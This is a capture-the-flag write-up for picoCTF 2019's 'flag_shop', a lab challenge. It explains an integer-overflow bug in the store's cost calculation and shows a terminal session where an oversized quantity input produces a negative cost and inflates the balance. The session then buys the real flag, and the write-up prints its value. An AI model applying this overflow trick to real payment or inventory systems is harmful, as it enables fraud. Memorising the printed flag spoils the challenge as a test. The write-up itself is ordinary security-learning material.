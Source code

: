 # flag_shop
#### There's a flag shop selling stuff, can you buy a flag? [Source](https://2019shell1.picoctf.com/static/5a20c190c65c3fe97c05cd22f2d4750f/store.c). Connect with nc 2019shell1.picoctf.com 25858.

Looking at the source we can see that the total_cost variable is an integer. This means that given a large enough number of flags, we can overflow the variable and buy a negative value worth of flags. This would be subtracted from our total balance adding money. This would give us enough money to buy the 1337 flag.

```
supermac30@LAPTOP-D0Q1SN5H:~$ nc 2019shell1.picoctf.com 25858
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
10000000000000000

The final cost is: -494665728

Your current balance after transaction: 494666828

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_325fcd2e}
```

Flag: picoCTF{m0n3y_bag5_325fcd2e}
